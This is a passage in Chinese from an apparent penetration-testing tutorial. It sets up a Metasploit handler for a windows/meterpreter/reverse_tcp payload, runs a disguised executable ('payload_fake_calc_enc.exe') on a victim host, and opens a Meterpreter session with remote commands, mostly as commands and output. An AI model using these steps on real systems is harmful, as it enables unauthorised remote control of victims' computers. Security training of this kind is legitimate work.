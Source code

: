     ```

    我们应该看到以下确认：

    ```
    **PAYLOAD => windows/meterpreter/reverse_tcp**

    ```

1.  然后，我们需要设置一些此特定有效负载所需的选项（监听的本地地址和端口）：

    ```
    **msf exploit(handler) > set LHOST 10.0.0.191**
    **msf exploit(handler) > set LPORT 8888**

    ```

    Metasploit 将确认两个选项是否已设置：

    ```
    **LHOST => 10.0.0.191**
    **LPORT => 8888**

    ```

1.  要开始监听，我们需要执行 `exploit` 命令：

    ```
    **msf exploit(handler) > exploit -j**

    ```

    如果一切顺利，我们应该看到以下输出：

    ```
    **[*] Exploit running as background job.**
    **[*] Started reverse handler on 10.0.0.191:8888** 
    **[*] Starting the payload handler...**

    ```

1.  所以，一切已设置好，准备进行攻击。让我们在受害者主机上执行我们生成的恶意文件 `payload_fake_calc_enc.exe`。在 Metasploit 控制台中，我们将看到如下内容：

    ```
    **[*] Meterpreter session 1 opened (10.0.0.191:8888 -> 10.0.0.163:49166) at 2015-12-18 00:14:46 +0300**

    ```

1.  要开始与 Meterpreter 会话交互，我们需要执行以下命令：

    ```
    **msf exploit(handler) > sessions -i 3**

    ```

1.  之后，我们将进入 Meterpreter 会话的交互式控制台。现在，我们可以在会话内执行命令，这些命令将在远程受害主机上执行。例如，我们需要执行`getuid`命令查看启动我们会话的用户环境，并且要获取当前进程的标识符，我们可以使用`getpid`命令：

    ```
    **meterpreter > getuid**
    **meterpreter > getpid**
